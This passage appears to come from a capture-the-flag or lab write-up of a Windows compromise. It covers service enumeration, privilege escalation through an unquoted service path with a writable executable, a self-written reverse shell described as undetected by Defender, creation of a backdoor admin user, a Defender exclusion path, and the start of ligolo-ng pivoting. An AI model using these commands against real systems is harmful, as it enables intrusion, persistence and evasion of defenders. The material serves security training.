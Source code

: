 Nothing interesting emerged, so before to proceed any further, I will try to login to wrk1 using laura credentials.

List all the configured services (powershell) on wrk1

 	Get-WmiObject win32_service | select name, status, pathname, startmode, description, processid, startname, started, state | ogv
### Escalate privileges on the workstations

Interesting enough there is a Backup service that presents an unquoted path <b>C:\Backup Service\Full Backup\backup.exe</b>, the service is manually started, let's check which permissions have the current user (laura) on the executable:

	icacls "C:\Backup Service\Full Backup\backup.exe"
		C:\Backup Service\Full Backup\backup.exe Everyone:(I)(F)
                ...
We have full control on the executable file, the service start manually. Let's try to execute it:

  	net start Backup
  	System error 193 has occurred.
  	*** is not a valid Win32 application.
	
It seems that there is a problem with the executable file, but actually we dont' care at all since the service correctly runs. Since have the permission
to write into the <b>C:\Backup Service</b> folder (as icalcs showed (I)), we can proceed to make the service to execute a malicious exe, and what's better
than a reverse shell? 
I used MalvasiaC a [simple reverse powershell](https://github.com/zinzloun/MalvasiaC) written in C by me, that at the moment is not detected by Defender.
After having compiled the reverse shell we rename it as <b>Full.exe</b> and I copied it to <b>C:\Backup Service</b> folder.

Now if we lunch the sevice Backup we should get a reverse powershell as system user, since Full.exe is executed in the service system context.
Then I proceed to create a local user with admin privileges 

	net user support Password2@ /add
 	net localgroup administrators support /add
  	net localgroup "Remote Desktop Users" support /add

#### Flags submissions
I can submit the first four flags.
Then I used the local administrator user to access wrk1 using RDP, then I created an hidden folder in C:\Users\support\def-exc to be excluded by windows defender (run the command as administrator):

	Set-MpPreference -ExclusionPath "C:\users\support\def-exc"	

To verify we can issue:

	Get-MpPreference | Select-Object -Property ExclusionPath
	
	ExclusionPath                
	-------------                
	{C:\users\support\def-exc}

### Pivoting
To reach other hosts from the attacker machine I will configure a tunnel using [ligolo-ng](https://github.com/nicocha30/ligolo-ng) for pivoting through wrk1 host.
Donwload the proxy and the agent (v.05.2).
Then on my attacker machine I started a python web server istance listening on port 8000
